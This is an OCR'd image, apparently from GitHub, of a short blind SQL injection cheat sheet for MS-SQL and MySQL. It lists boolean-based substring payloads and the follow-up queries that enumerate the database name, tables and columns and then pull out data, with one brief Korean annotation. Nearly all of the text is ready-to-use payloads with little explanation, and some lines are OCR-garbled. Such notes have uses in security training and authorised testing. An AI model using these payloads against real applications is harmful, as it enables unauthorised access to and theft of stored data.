 <MS-SQL><br>
#Shape<br>
select * from board where Title='//' and substring((query), 1, 1) < 'a'--<br>
???' and substring((query), 1, 1) < 'a'--<br>
<br>
#get DB NAME<br>
db_name()<br>
<br>
#Get Table name<br>
select top 1 name from sysobjects where xtype='U'<br>
<br>
#Get Column name<br>
select top 1 column_name from information_schema.columns where table_name = '[Table Name]'<br>
<br>
#Get Data<br>
select top 1 [Column Name] from [Table Name]<br>
<br>
<br>
<br>
<MySQL><br>
???' and ascii(substring((query), 1, 1)) > 'a'#<br>
<br>
#Get Table Name<br>
select table_name from information_schema.tables where table_type='base table' limit 0,1<br>
                                                                                     ㄴ> 0번 째 테이블<br>
  
